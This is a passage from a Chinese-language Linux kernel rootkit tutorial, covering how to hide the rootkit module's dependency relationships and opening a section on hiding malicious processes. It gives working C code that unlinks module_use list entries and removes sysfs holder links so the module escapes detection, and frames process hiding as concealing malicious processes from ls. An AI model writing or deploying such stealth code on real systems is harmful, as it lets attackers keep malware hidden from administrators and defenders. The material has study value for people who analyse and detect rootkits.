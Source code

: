 > 需要注意的是**摘除全局红黑树中的 vmap_area 节点意味着放弃了对相应虚拟地址空间的所有权，**这导致我们的 rootkit 的虚拟地址空间**可能被后面加载的新模块所覆盖**，使得我们的 rootkit 无法正常工作：(

四、模块依赖关系隐藏
----------

如果我们的 rootkit 依赖于其他的模块，则模块间依赖关系会被记录于 `sys/module/依赖模块/holder/` 中，因此我们也需要完成对模块依赖关系的隐藏

模块间依赖关系通过 `module_use` 结构体进行记录，本质上还是通过链表构建依赖关系：

```
/* modules using other modules: kdb wants to see this. */
struct module_use {
        struct list_head source_list;
        struct list_head target_list;
        struct module *source, *target;
};
```

因此我们只需要完成对应链表的脱链工作即可，下面笔者给出如下示例代码：

```
void nornir_hide_mod_unlink_use(void)
{
    struct module_use *use, *tmp;
 
    list_for_each_entry_safe(use, tmp, &THIS_MODULE->target_list, target_list) {
        list_del(&use->source_list);
        list_del(&use->target_list);
        sysfs_remove_link(use->target->holders_dir, THIS_MODULE->name);
    }
}
```

0x05. 进程隐藏
==========

有的时候我们需要启动一些恶意进程帮助我们完成一些任务，但是这些恶意进程很容易一个 `ls` 就被发现了 :（ 所以我们还需要完成隐藏进程的工作

一、pid 隐藏
--------

进程 id 在内核当中并非一个简单的整型字面量，而是一个 `pid` 结构体：

```
struct pid
{
        refcount_t count;
        unsigned int level;
        spinlock_t lock;
        /* lists of tasks that use this pid */
        struct hlist_head tasks[PIDTYPE_MAX];
        struct hlist_head inodes;
        /* wait queue for pidfd notifications */
        wait_queue_head_t wait_pidfd;
        struct rcu_head rcu;
        struct upid numbers[1];
};
```
